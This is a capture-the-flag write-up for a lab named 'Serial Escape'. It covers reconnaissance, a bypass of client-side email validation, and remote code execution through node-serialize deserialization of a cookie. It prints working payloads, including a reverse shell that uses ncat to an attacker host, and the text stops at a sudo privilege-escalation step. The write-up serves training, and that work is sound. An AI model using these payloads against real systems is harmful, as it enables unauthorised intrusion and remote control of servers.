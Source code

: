 # Serial Escape

To start with you can run a simple NMAP scan against the target.
```
nmap -sV -v <target IP>
```
![image](./images/2024-09-25_17h30_17.png)

Based on the NMAP results, there are two open ports: SSH (22) and HTTP (80).
If you navigate to the target IP address on a browser you will see a page as follows.

![image](./images/2024-09-25_17h30_48.png)

Based on the error message, you can understand that the base URL "/" requires authentication to visit.

To discover directories on the web application, you can use a directory brute-forcing tool like FFUF. This revealed an additional directory named 'dev', which also requires authentication.

![image](./images/2024-09-25_17h29_25.png)

When you navigate to the registration page to create a new user, you will see that the form requires you to enter an email address ending with "@oracle.az" only.

![image](./images/2024-09-25_17h31_16.png)

Upon registering, the application sends an OTP code to the provided email for verification, ensuring that users cannot create accounts with fake email addresses. However, after further inspection, you can notice that the email validation (checking if it ends with '@oracle.az') is only performed on the client side.

![image](./images/2024-09-25_18h56_23.png)

So, you can fill out the registration form with dummy inputs, capture the network traffic with Burp Suite, and replace the email address with one of your choice (either an email you own or a temporary/disposable email) to receive the OTP code and pass verification.
For demonstration purposes, a temporary email was used.
https://temp-mail.org/

![image](./images/2024-09-25_17h36_49.png)

Once you have placed a valid email address you can forward the traffic, which will send an OTP to the provided address.

![image](./images/2024-09-25_17h38_46.png)

To complete the registration process, enter the OTP code and submit.

![image](./images/2024-09-25_17h39_16.png)
![image](./images/2024-09-25_17h39_31.png)

As a result, you will be redirected to the login page with a success message indicating that you have successfully created a new user.
Having a user on the web application you can log in now. On the home page, you will see the first flag for the CTF.

![image](./images/2024-09-25_17h39_50.png)

Since you now have a valid user, you can visit the "dev" directory discovered earlier while directory brute-forcing with FFUF.
On the "dev" directory you will see two files: notes.txt and source.zip

![image](./images/2024-09-25_17h41_34.png)

The notes.txt file contains a message titled 'Security Alert,' highlighting a critical vulnerability in the application originating from a package called ```node-serialize```.
According to this message, you can understand that your next step will be downloading the source code of the web app (```/dev/source.zip```) and analyzing it to move the attack further. 

![image](./images/2024-09-25_17h41_42.png)

To begin your code review, start with the ```app.js``` file. In the ```app.js``` file, you'll also notice a warning comment regarding the ```node-serialize``` package.

![image](./images/2024-09-25_17h43_07.png)

To identify what the node-serialize package is vulnerable to, you can search online. You'll discover that it has a critical vulnerability: arbitrary remote code execution, which is explained in the following link. This vulnerability specifically affects the ```unserialize``` function, according to the explanation.
https://security.snyk.io/vuln/npm:node-serialize:20170208

Knowing that the web application is vulnerable to remote code execution, you can examine the source code further to find out where and how the ```node-serialize``` package is used. By searching in the ```app.js``` file, you'll find that the vulnerable package is passed to the ```home``` router after being imported.

![image](./images/2024-09-25_17h45_54.png)

To understand how and for what functionality of the web application the ```node-serialize``` package is used, open the JavaScript file responsible for the home page.
Upon reviewing the code, two key points emerge:
* When a user searches for a keyword, it is taken from the request, serialized, and stored in a cookie named ```last_search```.
* During each GET request to the home page, the value of the ```last_search``` cookie is retrieved, **_UNSERIALIZED_**. (which is the vulnerable part), and passed to the client side for display.

This functionality allows users to see their most recent search by storing its value in a cookie.

![image](./images/2024-09-25_17h54_27.png)

In the image below, you can see an example of the usage of this functionality.

![image](./images/2024-09-25_18h12_04.png)

As your next step, you have to craft such a payload that will execute system commands on the target website.
You can find an example payload from the link provided earlier.

```javascript
{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}
```

To adapt this payload for our target application, we need to remove the dictionary structure, enclosing double quotes, and any escaped characters, keeping only the core payload.

To test if the payload works, we can attempt to ping our attacking machine and verify whether the command executes. To detect the ping requests, start a ```tcpdump``` on the attacker machine to monitor ICMP traffic.

```javascript
_$$ND_FUNC$$_function (){require('child_process').exec('ping <attacker IP> -c 3', function(error, stdout, stderr) { console.log(stdout) });}()
```

Keep in mind that for successful code execution, the payload must first be sent to the web application. After that, you need to send another search keyword. This way, the payload becomes your previous search query and gets unserialized when accessing the home page. The vulnerability, as mentioned earlier, lies in the unserialize function of the package, not the serialize function.

Once the payload above is injected, you will observe six ICMP packets: three requests and three replies.

![image](./images/2024-09-25_18h22_19.png)

Confirming that the payload works, you can modify the payload to get a reverse shell.

```javascript
_$$ND_FUNC$$_function (){require('child_process').exec('ncat <attacker IP> <attacker Port> -e /bin/bash', function(error, stdout, stderr) { console.log(stdout) });}()
```

Upon injection of the payload above, you will get a reverse shell under the "www-data" user, which will enable you to grab the second flag for the CTF.

![image](./images/2024-09-25_18h24_52.png)
![image](./images/2024-09-25_18h35_11.png)

Moving on you can start looking around for a vulnerability/misconfiguration leading to privilege escalation.
As a result of executing  the ```sudo -l``` command, you can see that the www-data user is allowed to run the following command with ```sudo```privileges.

```
/usr/bin/apt edit-sources ../*
```

![image](./images/2024-09-25_18h30_58.png)
![image](./images/2024-09-25_18h33_34.png)
![image](./images/2024-09-25_18h34_12.png)

